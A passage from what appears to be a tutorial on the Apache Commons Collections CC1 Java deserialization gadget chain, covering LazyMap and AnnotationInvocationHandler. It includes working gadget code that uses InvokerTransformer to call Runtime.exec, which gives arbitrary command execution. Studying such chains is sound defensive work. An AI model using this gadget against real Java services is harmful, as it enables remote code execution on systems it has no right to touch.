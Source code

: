 ##### LazyMap

Now we need to found a place will call the `transform` method of a `ChainedTransformer` af `readObject`.

CC1 use `org.apache.commons.collections.map.LazyMap#get`

```java
public Object get(Object key) {
    // create value for key if key is not currently in the map
    if (map.containsKey(key) == false) {
        Object value = factory.transform(key);
        map.put(key, value);
        return value;
    }
    return map.get(key);
}
```

So, if we construct a `LazyMap` which the field `factory` was a `ChainedTransformer` object, we can call this `get` method with a no exists `key` to perform the `transform` method.

```java
ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[]{
    new ConstantTransformer(Runtime.class),
    new InvokerTransformer("getMethod",
            new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
    new InvokerTransformer("invoke",
            new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
    new InvokerTransformer("exec",
            new Class[]{String.class}, new Object[]{"calc"})
});

LazyMap lazyMap = (LazyMap) LazyMap.decorate(new HashMap(), chainedTransformer);
lazyMap.get(null);
```

##### AnnotationInvocationHandler

Keep going, wherether a `readObject` can we found and control it to call the `get` method of a `LazyMap` object.

In JDK, there is a class `sun.reflect.annotation.AnnotationInvocationHandler`. This class implement `InvocationHandler`, and CC1 use it with dynamic proxy to call a special method.

Let's see the `readObject` of `AnnotationInvocationHandler`

```java
private void readObject(ObjectInputStream var1) throws IOException, ClassNotFoundException {
    var1.defaultReadObject();
    AnnotationType var2 = null;

    try {
        var2 = AnnotationType.getInstance(this.type);
    } catch (IllegalArgumentException var9) {
        throw new InvalidObjectException("Non-annotation type in annotation serial stream");
    }

    Map var3 = var2.memberTypes();
    Iterator var4 = this.memberValues.entrySet().iterator();

    ...
}
```
